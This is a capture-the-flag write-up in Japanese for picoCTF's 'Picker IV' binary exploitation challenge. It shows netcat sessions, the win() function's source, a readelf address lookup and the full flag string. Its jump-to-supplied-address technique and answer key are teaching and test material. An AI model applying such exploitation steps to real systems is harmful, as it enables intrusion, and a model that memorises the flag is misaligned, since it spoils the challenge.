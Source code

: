 # Picker IV:Binary Exploitation

Can you figure out how this program works to get the flag?  
Connect to the program with netcat: `$ nc saturn.picoctf.net 51785`  
The program's source code can be downloaded [here](picker-IV.c). The binary can be downloaded [here](picker-IV).

# Solution

とりあえず、`nc saturn.picoctf.net 51785`を実行してみる。
```
$ nc saturn.picoctf.net 51785
Enter the address in hex to jump to, excluding '0x': ffffff
You input 0xffffff
Segfault triggered! Exiting.
```
フラグが取れそうな関数のアドレスを指定すればフラグが出てきそうだ。
ソースコードを見てみる。
```c
int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }
```
winを見つけた。`readelf -a`でアドレスを確認すると、
```
63: 000000000040129e   150 FUNC    GLOBAL DEFAULT   15 win
```
とあった。
もう一度、実行して`40129e`を入力してみる。
```
$ nc saturn.picoctf.net 51785
Enter the address in hex to jump to, excluding '0x': 40129e
You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_b8de1af4}
```
flagが得られた。

`picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_b8de1af4}`

